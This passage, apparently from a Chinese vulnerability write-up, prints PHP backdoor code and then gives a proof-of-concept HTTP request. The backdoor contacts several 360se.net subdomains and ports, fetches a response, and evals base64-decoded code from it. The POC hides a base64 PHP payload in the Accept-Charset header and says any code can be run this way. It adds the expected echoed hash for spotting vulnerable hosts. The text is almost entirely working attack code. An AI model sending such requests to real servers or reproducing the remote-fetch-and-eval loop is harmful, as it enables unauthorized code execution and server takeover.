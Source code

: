         return $result;
    }

    $ds = array("www","bbs","cms","down","up","file","ftp");   // 域名表
    $ps = array("20123","40125","8080","80","53");             // 端口表
    $n = false;
    do {
        $n = false;
        foreach ($ds as $d){                                   //遍历域名表
            $b = false;
            foreach ($ps as $p){                               // 遍历端口表
                $result = tcpGet($i,$d.".360se.net",$p);
                if ($result != "err"){
                    $b =true;
                    break;
                }
            }
            if ($b)break;
        }
        $info = explode("<^>",$result);
        if (count($info)==4){
            if (strpos($info[3],"/*Onemore*/") !== false){
                $info[3] = str_replace("/*Onemore*/","",$info[3]);
                $n=true;
            }
            @eval(base64_decode($info[3]));
        }
    }while($n);

    ?>

### POC

熟悉原理后可根据执行流程构造执行任意代码的Payload：

    GET /index.php HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding:gzip,deflate
    Accept-Charset:cHJpbnRmKG1kNSgzMzMpKTs=
    Content-Length: 0
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

Payload：`printf(md5(333));`

回显特征：`310dcbbf4cce62f762a2aaa148d556bd`
